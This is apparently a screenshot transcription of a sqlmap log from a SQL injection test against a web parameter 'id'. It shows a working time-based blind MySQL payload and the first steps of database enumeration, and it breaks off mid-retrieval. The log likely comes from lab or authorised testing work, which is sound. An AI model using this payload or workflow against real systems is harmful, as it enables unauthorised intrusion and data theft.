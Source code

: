 ```jsx
[17:23:49] [WARNING] turning off pre-connect mechanism because of incompatible server ('SimpleHTTP/0.6 Python/3.10.9')
[17:23:49] [INFO] testing if the target URL content is stable
[17:23:49] [INFO] target URL content is stable
[17:23:49] [INFO] testing if GET parameter 'id' is dynamic
[17:23:50] [WARNING] GET parameter 'id' does not appear to be dynamic
[17:23:50] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[17:23:51] [INFO] testing for SQL injection on GET parameter 'id'
[17:23:51] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[17:23:52] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[17:23:53] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[17:23:55] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[17:23:56] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[17:23:58] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[17:24:00] [INFO] testing 'Generic inline queries'
[17:24:01] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[17:24:02] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[17:24:03] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[17:24:04] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[17:24:15] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[17:24:15] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[17:24:15] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[17:24:23] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[17:24:32] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[17:24:32] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 97 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 4321 FROM (SELECT(SLEEP(5)))IZXb)
---
[17:24:55] [INFO] the back-end DBMS is MySQL
[17:24:55] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
back-end DBMS: MySQL >= 5.0.12
[17:24:57] [INFO] fetching database names
[17:24:57] [INFO] fetching number of databases
[17:24:57] [INFO] retrieved: 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
5
[17:25:10] [INFO] retrieved: 
[17:25:15] [INFO] adjusting time delay to 1 second due to good response times
mysql
[17:25:43] [INFO] retrieved: information_schema
[17:27:28] [INFO] retrieved: performance_schema
[17:29:11] [INFO] retrieved: sys
[17:29:30] [INFO] retrieved: s
[17:29:43] [ERROR] invalid character detected. retrying..
[17:29:43] [WARNING] increasing time delay to 2 seconds
```